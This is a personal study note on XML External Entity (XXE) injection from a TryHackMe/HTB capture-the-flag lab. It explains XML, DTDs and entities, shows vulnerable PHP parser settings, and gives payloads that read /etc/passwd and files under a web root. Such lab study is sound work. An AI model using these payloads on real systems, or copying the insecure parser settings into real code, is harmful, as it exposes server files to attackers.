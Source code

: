 
2024-12-10 14:57

Source: #AOC24 #htb #web 

Tags: [[Injection]]

### Extensible Markup Language (XML)

[[XML]] is a commonly used method to transport and store data in a structured format that is easy to understand.
XML uses `tags` to label and organize information
The key benefit of XML is that it is easily shareable and customizable, allowing you to create your own tags. 

```xml
<people>
	<name>Glitch</name>
	<address>Wareville</address>
</people>
```
### Document Type Definition (DTD)

DTD is a set of **rules** that defines the structure of an XML document.

```dtd
<!DOCTYPE people [ 
	<!ELEMENT people(name, address)> 
	<!ELEMENT name (#PCDATA)>
	<!ELEMENT address (#PCDATA)>
]>
```
### Entities

- Entities in XML are placeholders that allow the insertion of large chunks of data or referencing internal or external files. 
- Entities can be defined internally within the XML document or externally, referencing data from an outside source.

```xml
<!DOCTYPE people [
	<!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
	<name>Glitch</name> 
	<address>&thmFile;</address>
</people>
```
### XML External Entity (XXE)

- XXE is an attack that takes advantage of **how** **XML parsers handle external entities**.
- When a web application processes an XML file that contains an external entity, the parser attempts to load or execute whatever resource the entity points to. If necessary sanitization is not in place, the attacker may point the entity to any malicious source/code causing the undesired behavior of the web app.
### Lab

we can wish list items and it assigns a wish number to every wish list 
Now, when you visit the URL, `http://MACHINE_IP/product.php`, and click `Add to Wishlist`, an AJAX call is made to `wishlist.php`

This `wishlist.php` accepts the request and parses the request using the following code:

```javascript
<?php
..
...
libxml_disable_entity_loader(false);
$wishlist = simplexml_load_string($xml_data, "SimpleXMLElement", LIBXML_NOENT);

...
..
echo "Item added to your wishlist successfully.";
?>

```

When a user sends specially crafted XML data to the application, the line `libxml_disable_entity_loader(false)` allows the XML parser to load external entities. This means the XML input can include external file references or requests to remote servers. When the XML is processed by `simplexml_load_string` with the `LIBXML_NOENT` option, the web app resolves external entities, allowing 

inject this payload in the `wishlists.php` request 
**Note: Not all web applications use the path /var/www/html, but web servers typically use it.**

```javascript
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```

### References

THM AOC24 - DAY 5 
HTB - Jailbreak from CTF tryout